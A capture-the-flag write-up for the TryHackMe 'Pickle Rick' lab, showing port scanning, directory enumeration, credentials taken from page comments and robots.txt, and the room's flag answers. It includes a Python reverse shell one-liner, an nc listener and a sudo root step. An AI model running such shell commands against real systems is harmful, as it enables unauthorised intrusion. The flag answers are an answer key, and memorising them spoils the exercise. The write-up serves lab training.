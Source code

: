 # Tryhackme

## **Pickle Rick pentest and hacking**

- ### Port scanning with nmap

  ```bash
  nmap 10.10.223.5
  ```

  | PORT   | STATE | SERVICE |
  | ------ | ----- | ------- |
  | 22/tcp | open  | ssh     |
  | 80/tcp | open  | http    |

  ```bash
  nmap -sV -p 22,80 10.10.223.5
  ```

  | PORT   | STATE | SERVICE | VERSION                                                      |
  | ------ | ----- | ------- | ------------------------------------------------------------ |
  | 22/tcp | open  | ssh     | OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0) |
  | 80/tcp | open  | http    | Apache httpd 2.4.18 ((Ubuntu))                               |

- ### Open webapplication with browser **10.10.223.5**

  1.  html comments

      ***

      Note to self, remember username!

      > Username: R1ckRul3s

      ***

  2.  url/robots.txt
      ***
      > Wubbalubbadubdub
      ***
  3.  url/login.php

      ***

      > username: R1ckRul3s

      > password: Wubbalubbadubdub

      ***

  4.  login and execute reverse shell using python3

    <https://www.revshells.com/>

    <https://pentestmonkey.net/>

  - Reverse shell command
    ```python3
        export RHOST="1.1.1.1";export RPORT=3333;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")
    ```
  - Listener command
    ```bash
    nc -lvnp 3333
    ```
  - Root access
    ```bash
      sudo bash -i
    ```

- ### List directories with gobuster

  ```bash
  gobuster dir -u http://10.10.223.5/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt

  Gobuster v3.2.0-dev
  by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
  ===============================================================
  [+] Url:                     http://10.10.223.5/
  [+] Method:                  GET
  [+] Threads:                 10
  [+] Wordlist:                /usr/share/wordlists/dirb/common.txt
  [+] Negative Status codes:   404
  [+] User Agent:              gobuster/3.2.0-dev
  [+] Extensions:              php,html,txt
  [+] Timeout:                 10s
  ===============================================================
  Starting gobuster in directory enumeration mode
  ===============================================================
  /assets               (Status: 301) [Size: 313] [--> http://10.10.151.54/assets/]
  /denied.php           (Status: 302) [Size: 0] [--> /login.php]
  /index.html           (Status: 200) [Size: 1062]
  /index.html           (Status: 200) [Size: 1062]
  /login.php            (Status: 200) [Size: 882]
  /portal.php           (Status: 302) [Size: 0] [--> /login.php]
  /robots.txt           (Status: 200) [Size: 17]
  /robots.txt           (Status: 200) [Size: 17]

  Progress: 18456 / 18460 (99.98%)===============================================================
  ```

- ### Answer the questions below

  1. What is the first ingredient Rick needs?
     > mr. meeseek hair
  2. Whats the second ingredient Rick needs?
     > 1 jerry tear
  3. Whats the final ingredient Rick needs?
     > fleeb juice
